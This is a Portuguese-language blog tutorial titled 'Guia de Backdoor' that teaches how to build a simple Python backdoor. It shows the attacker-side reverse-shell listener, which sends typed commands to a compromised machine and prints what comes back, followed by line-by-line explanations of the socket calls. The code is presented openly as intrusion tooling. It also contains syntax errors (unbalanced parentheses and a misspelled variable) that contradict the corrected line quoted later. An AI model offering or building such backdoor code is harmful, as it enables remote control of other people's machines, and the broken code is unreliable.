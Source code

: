 ```yaml
---
title: "Guia de Backdoor"
date: 2024-12-10 14:50:00 -0300
categories: [Guia]
tags: [Backdoor, APT-Técnicas]
---
```


![imagem](https://i.pinimg.com/736x/ae/f0/c1/aef0c11a232964100d4f5b7780f2b930.jpg)

# um Guia sobre Backdoors

> [!NOTE]
> Conteúdo desse Guia
* Como funciona um Backdoor
* Como fazer um simples Backdoor usando python

# um Backdoor simples em python
Nesse exemplo demonstro um Backdoor que usa uma reverse shell e estabelece uma conexão com o alvo para a maquina
do atacante do ataque, permitindo o atacante enviar comandos e receber outputs(saídas) do alvo.

* O código usa a biblioteca socket pra fazer a comunicação entre os Hosts

# Servidor

```
import socket

#comunicação do servidor
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind('localhost', 8080)) #o ip padrão e localhost, e porta 8080
s.listen(1)

#quando estabelecida a conexão, printa conectado e o addr(ip do cliente)
while True:
    conn, addr = s.accept()
    print(f"[+]Conectado a {addr}")

#o looping que permite o servidor enviar comandos pro cliente e receber 
    while True:
        command = input("Shell > ")
        if command == 'exit':
          conn.send(b'exit')
          conn.close()
          break
        else:
            conn.send(command.encode())
            output = conn.recv(1024))
            print(outut.decode())
```

>[!NOTE]
> Explicação mais detalhada do código para qualquer um entender

* ```s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)```
* s -> cria um novo objeto de socket
* socket.AF_INET -> especifica que o socket usará o protocolo IPv4
* socket.SOCK_STREAM -> indica que o socket será do tipo TCP

```s.bind(('localhost', 8080))```
* o método bind associa o socket a um endereço IP e uma porta específicos
* Nesse caso, o servidor foi vinculado ao endereço localhost e à porta 8080

```s.listen(1)```
* o método listen coloca o socket em modo de escuta, aguardando conexões de clientes.
* o parâmetro 1 especifica o número máximo de conexões que podem ser enfileiradas. Nesse caso, o servidor aceitará uma conexão à espera de outra.

